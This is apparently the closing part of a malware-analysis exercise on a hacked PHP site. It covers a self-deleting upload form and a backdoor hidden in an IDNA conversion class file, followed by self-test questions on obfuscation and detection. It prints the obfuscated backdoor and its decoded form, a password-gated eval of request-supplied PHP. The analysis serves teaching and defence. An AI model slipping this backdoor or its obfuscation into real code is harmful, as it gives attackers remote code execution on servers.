 This is a form for uploading files which might be used to upload malicious files.

After execution, the `google.php` file deletes itself in order to leave as few traces as possible.


### The Root of All Evil

After some more in-depth searching through the files, one more thing was found in the `inc/_ext/_idna_convert.class.php`.

```php
<?php $ufcsafbt="tgmpgiamscuq"^"\x04\x15\x08\x178\x1b\x04\x1d\x1f\x02\x16\x14"; $bidjyvcisn="bhxfwpkefbrlct"^"M\x0e\x0b\x11\x16\x06\x07\x03I\x07";$ufcsafbt("$bidjyvcisn", "\x0b\x19\x11\x1a\x1b4\x14\x07\x19\x03\x19\x00\x08\x0f\x04J\x5bJY\x03\x15\x1b\x0eYJ\x08\x0dG\x10\x1a\x06\x08\x00\x5f\x3b\x3eL265\x29\x3a\x2f\x2a\x3b7F\x1a\x07E9\x5bB\x40OJN\x1e\x1cPJ\x2f\x2dQ\x2f\x2a2\x26\x3f\x24\x3f\x3c4Q\x05\x0b\x40\x3aKVTXNM\x5eB\x40\x11Y\x17\x11\x12\x0cX\x09H\x0c\x0dO\x14\x0cP\x1f\x40\x07VL\x5c\x5eTQF\x07\x16T\x15I\x5fFDKZ\x18\x04\x19\x07\x02Y5\x2dL\x2e\x2a\x23\x3c\x2f\x2f\x3f\x3d\x2fK\x1e\x05\x019\x0c\x08\x17\x0eK\x28QBL\x0fT\x08\x19\x0a\x1aN\x00\x19\x16\x11\x09\x10\x04\x0a\x1f\x09\x12\x0aF29F\x2b\x2a\x284\x27\x2f\x3c78N\x00\x1a\x034\x1b\x04\x13\x04N\x2bMY\x5dO\x14\x1a\x07\x10G\x5b\x5dI\x0dPD\x5c"^"nkcuikfbilktaacbkcbfczbqhakoyiumtwgbhmdpxojyolayobdrbfijfsxebsqupxwwjalhovfcggbvienjkvtporupjkkyhhvqhgywcdyjkaesercpnvfbmzqwjbvqiqhqxfmzjlitlnmqfogskluxklttmokvfsmdxychklawynnebtxmerjocciprskxkwaivdpfoqbndorfiprmg", "fswavlf"); ?>
```

The decoded version of it looks like this:

```php
<?php error_reporting(0);
eval("if(isset(\$_REQUEST['ch']) && (md5(\$_REQUEST['ch']) == '544a6edbf3b1de9ed7f7d2565545bd7e') && isset(\$_REQUEST['php_code'])) { eval(stripslashes(\$_REQUEST['php_code'])); exit(); }");
```

This happens to be a backdoor through which the attacker can execute arbitrary code on the server therefore being able to open other backdoors and upload malicious files.


### Self-test questions

* Which attack vector was leveraged to make the hack possible?

* Why did the attacker obfuscate the malware?
    In order to make it hard for an incompetent person to identify the malware.

* What obfuscation techniques were employed?
    - separating the code in multiple strings and evaluating it later
    - spreading malware logic accross different files

* Why did the malware not leave any visible traces on the front-end?
    - it would identify the malware which is not the goal of the attacker

* What could have been the motivation of the attacker?
    - use the web-site as a proxy for doing dirty (maybe illegal) business

* How did the attacker ensure that only they could access the malware on the site after it got pwned?

* What would be an easy way to identify malicious files in a web-application?
    Use a directory/file monitor that would ensure no unexpected changes occur.
